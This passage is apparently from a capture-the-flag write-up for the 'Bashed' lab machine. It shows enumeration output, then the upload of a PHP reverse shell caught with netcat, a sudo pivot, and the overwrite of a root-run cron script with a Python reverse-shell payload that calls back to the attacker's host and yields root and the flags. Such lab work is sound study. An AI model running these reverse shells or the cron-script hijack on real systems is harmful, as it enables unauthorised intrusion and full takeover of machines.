-rwxr-xr-x 1 root root 3927 Jan 19 2016 sendsigs
-rwxr-xr-x 1 root root 597 Jan 19 2016 single
-rw-r--r-- 1 root root 1087 Jan 19 2016 skeleton
-rwxr-xr-x 1 root root 6087 Apr 12 2016 udev
-rwxr-xr-x 1 root root 2049 Aug 7 2014 ufw
-rwxr-xr-x 1 root root 2737 Jan 19 2016 umountfs
-rwxr-xr-x 1 root root 2202 Jan 19 2016 umountnfs.sh
-rwxr-xr-x 1 root root 1879 Jan 19 2016 umountroot
-rwxr-xr-x 1 root root 3111 Jan 19 2016 urandom
-rwxr-xr-x 1 root root 1306 Dec 16 2016 uuidd
-rwxr-xr-x 1 root root 2757 Nov 10 2015 x11-common


### SOFTWARE #############################################
[-] Sudo version:
Sudo version 1.8.16


[-] Apache version:
Server version: Apache/2.4.18 (Ubuntu)
Server built: 2017-09-18T15:09:02


[-] Apache user configuration:
APACHE_RUN_USER=www-data
APACHE_RUN_GROUP=www-data


[-] Installed Apache modules:
Loaded Modules:
core_module (static)
so_module (static)
watchdog_module (static)
http_module (static)
log_config_module (static)
logio_module (static)
version_module (static)
unixd_module (static)
access_compat_module (shared)
alias_module (shared)
auth_basic_module (shared)
authn_core_module (shared)
authn_file_module (shared)
authz_core_module (shared)
authz_host_module (shared)
authz_user_module (shared)
autoindex_module (shared)
deflate_module (shared)
dir_module (shared)
env_module (shared)
filter_module (shared)
mime_module (shared)
mpm_prefork_module (shared)
negotiation_module (shared)
php7_module (shared)
setenvif_module (shared)
status_module (shared)


### INTERESTING FILES ####################################
[-] Useful file locations:
/bin/nc
/bin/netcat
/usr/bin/wget


[-] Can we read/write sensitive files:
-rw-r--r-- 1 root root 1482 Dec 4 13:54 /etc/passwd
-rw-r--r-- 1 root root 820 Dec 4 13:53 /etc/group
-rw-r--r-- 1 root root 575 Oct 22 2015 /etc/profile
-rw-r----- 1 root shadow 933 Dec 4 13:54 /etc/shadow


[-] Can't search *.conf files as no keyword was entered

[-] Can't search *.php files as no keyword was entered

[-] Can't search *.log files as no keyword was entered

[-] Can't search *.ini files as no keyword was entered

[-] All *.conf files in /etc (recursive 1 level):
-rw-r--r-- 1 root root 703 May 5 2015 /etc/logrotate.conf
-rw-r--r-- 1 root root 604 Jul 2 2015 /etc/deluser.conf
-rw-r--r-- 1 root root 497 May 4 2014 /etc/nsswitch.conf
-rw-r--r-- 1 root root 14867 Apr 11 2016 /etc/ltrace.conf
-rw-r--r-- 1 root root 7788 Dec 4 11:16 /etc/ca-certificates.conf
-rw-r--r-- 1 root root 552 Mar 16 2016 /etc/pam.conf
-rw-r--r-- 1 root root 2084 Sep 5 2015 /etc/sysctl.conf
-rw-r--r-- 1 root root 338 Nov 17 2014 /etc/updatedb.conf
-rw-r--r-- 1 root root 1260 Mar 16 2016 /etc/ucf.conf
-rw-r--r-- 1 root root 2584 Feb 18 2016 /etc/gai.conf
-rw-r--r-- 1 root root 4781 Mar 17 2016 /etc/hdparm.conf
-rw-r--r-- 1 root root 967 Oct 30 2015 /etc/mke2fs.conf
-rw-r--r-- 1 root root 3028 Feb 15 2017 /etc/adduser.conf
-rw-r--r-- 1 root root 771 Mar 6 2015 /etc/insserv.conf
-rw-r--r-- 1 root root 2969 Nov 10 2015 /etc/debconf.conf
-rw-r--r-- 1 root root 92 Oct 22 2015 /etc/host.conf
-rw-r--r-- 1 root root 191 Jan 18 2016 /etc/libaudit.conf
-rw-r--r-- 1 root root 144 Dec 4 11:17 /etc/kernel-img.conf
-rw-r--r-- 1 root root 34 Jan 27 2016 /etc/ld.so.conf
-rw-r--r-- 1 root root 1371 Jan 27 2016 /etc/rsyslog.conf
-rw-r--r-- 1 root root 280 Jun 19 2014 /etc/fuse.conf
-rw-r--r-- 1 root root 350 Dec 4 11:16 /etc/popularity-contest.conf


[-] Location and contents (if accessible) of .bash_history file(s):
/home/scriptmanager/.bash_history
/home/arrexel/.bash_history


[-] Any interesting mail in /var/mail:
total 8
drwxrwsr-x 2 root mail 4096 Feb 15 2017 .
drwxr-xr-x 12 root root 4096 Dec 4 11:20 ..


### SCAN COMPLETE ####################################
```


###### Reverse Shell

```sh
root@kali:~/bashed# locate php-reverse-shell
/usr/share/beef-xss/modules/exploits/m0n0wall/php-reverse-shell.php
/usr/share/laudanum/php/php-reverse-shell.php
/usr/share/laudanum/wordpress/templates/php-reverse-shell.php
/usr/share/webshells/php/php-reverse-shell.php
/usr/share/wordlists/SecLists/Web-Shells/laudanum-0.8/php/php-reverse-shell.php
root@kali:~/bashed#
```

```sh
root@kali:~/bashed# cp /usr/share/webshells/php/php-reverse-shell.php .
root@kali:~/bashed# ls -l php-reverse-shell.php
-rwxr-xr-x 1 root root 5493 Jun  4 03:40 php-reverse-shell.php
root@kali:~/bashed#
```


```sh
root@kali:~/bashed# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
10.10.10.68 - - [04/Jun/2018 03:44:22] "GET /php-reverse-shell.php HTTP/1.1" 200 -
```

```
http://10.10.10.68/uploads/php-reverse-shell.php
```

```sh
root@kali:~/bashed# nc -nlvp 8001
listening on [any] 8001 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.68] 35586
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 00:46:32 up  5:18,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty; pty.spawn("/bin/bash")'
www-data@bashed:/$ ^Z
[1]+  Stopped                 nc -nlvp 8001
root@kali:~/bashed# echo $TERM
xterm-256color
root@kali:~/bashed# stty -a
speed 38400 baud; rows 51; columns 204; line = 0;
intr = ^C; quit = ^\; erase = ^?; kill = ^U; eof = ^D; eol = M-^?; eol2 = M-^?; swtch = <undef>; start = ^Q; stop = ^S; susp = ^Z; rprnt = ^R; werase = ^W; lnext = ^V; discard = ^O; min = 1; time = 0;
-parenb -parodd -cmspar cs8 -hupcl -cstopb cread -clocal -crtscts
-ignbrk -brkint -ignpar -parmrk -inpck -istrip -inlcr -igncr icrnl ixon -ixoff -iuclc ixany imaxbel iutf8
opost -olcuc -ocrnl onlcr -onocr -onlret -ofill -ofdel nl0 cr0 tab0 bs0 vt0 ff0
isig icanon iexten echo echoe echok -echonl -noflsh -xcase -tostop -echoprt echoctl echoke -flusho -extproc
root@kali:~/bashed# stty raw -echo
root@kali:~/bashed# nc -nlvp 8001
                                 reset
reset: unknown terminal type unknown
Terminal type? xterm-256color

www-data@bashed:/$ export SHELL=bash
www-data@bashed:/$ stty rows 51 columns 204
www-data@bashed:/$ sudo -u scriptmanager bash
scriptmanager@bashed:/$ id
uid=1001(scriptmanager) gid=1001(scriptmanager) groups=1001(scriptmanager)
scriptmanager@bashed:/$ ls -lah
total 88K
drwxr-xr-x  23 root          root          4.0K Dec  4 13:02 .
drwxr-xr-x  23 root          root          4.0K Dec  4 13:02 ..
drwxr-xr-x   2 root          root          4.0K Dec  4 11:22 bin
drwxr-xr-x   3 root          root          4.0K Dec  4 11:17 boot
drwxr-xr-x  19 root          root          4.2K Jun  3 19:28 dev
drwxr-xr-x  89 root          root          4.0K Dec  4 17:09 etc
drwxr-xr-x   4 root          root          4.0K Dec  4 13:53 home
lrwxrwxrwx   1 root          root            32 Dec  4 11:14 initrd.img -> boot/initrd.img-4.4.0-62-generic
drwxr-xr-x  19 root          root          4.0K Dec  4 11:16 lib
drwxr-xr-x   2 root          root          4.0K Dec  4 11:13 lib64
drwx------   2 root          root           16K Dec  4 11:13 lost+found
drwxr-xr-x   4 root          root          4.0K Dec  4 11:13 media
drwxr-xr-x   2 root          root          4.0K Feb 15  2017 mnt
drwxr-xr-x   2 root          root          4.0K Dec  4 11:18 opt
dr-xr-xr-x 115 root          root             0 Jun  3 19:28 proc
drwx------   3 root          root          4.0K Dec  4 13:03 root
drwxr-xr-x  18 root          root           500 Jun  3 19:28 run
drwxr-xr-x   2 root          root          4.0K Dec  4 11:18 sbin
drwxrwxr--   2 scriptmanager scriptmanager 4.0K Dec  4 18:06 scripts
drwxr-xr-x   2 root          root          4.0K Feb 15  2017 srv
dr-xr-xr-x  13 root          root             0 Jun  3 19:28 sys
drwxrwxrwt  10 root          root          4.0K Jun  4 00:51 tmp
drwxr-xr-x  10 root          root          4.0K Dec  4 11:13 usr
drwxr-xr-x  12 root          root          4.0K Dec  4 11:20 var
lrwxrwxrwx   1 root          root            29 Dec  4 11:14 vmlinuz -> boot/vmlinuz-4.4.0-62-generic
scriptmanager@bashed:/$ cd scripts/
scriptmanager@bashed:/scripts$ ls -lah
total 16K
drwxrwxr--  2 scriptmanager scriptmanager 4.0K Dec  4 18:06 .
drwxr-xr-x 23 root          root          4.0K Dec  4 13:02 ..
-rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4 17:03 test.py
-rw-r--r--  1 root          root            12 Jun  4 00:51 test.txt
scriptmanager@bashed:/scripts$
scriptmanager@bashed:/scripts$ cat test.txt
testing 123!
scriptmanager@bashed:/scripts$
scriptmanager@bashed:/scripts$ cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$
scriptmanager@bashed:/scripts$ date
Mon Jun  4 00:54:00 PDT 2018
scriptmanager@bashed:/scripts$
```

```sh
scriptmanager@bashed:/scripts$ vi test.py
```

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.16",1234));os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```


```sh
scriptmanager@bashed:/scripts$ date
Mon Jun  4 00:57:57 PDT 2018
scriptmanager@bashed:/scripts$
```

```sh
root@kali:~/bashed# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.68] 36228
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -l
total 4
-r-------- 1 root root 33 Dec  4 12:48 root.txt
# cat root.txt
cc4f0afe3a1026d402ba10329674a8e2
# cd /home
# ls -l
total 8
drwxr-xr-x 4 arrexel       arrexel       4096 Dec  4 12:52 arrexel
drwxr-xr-x 3 scriptmanager scriptmanager 4096 Dec  4 17:08 scriptmanager
# cd arrexel
# ls -l
total 4
-r--r--r-- 1 arrexel arrexel 33 Dec  4 12:47 user.txt
# cat user.txt
2c281f318555dbc1b856957c7147bfc1
# cd /home/scriptmanager
# ls -l
total 0
#
```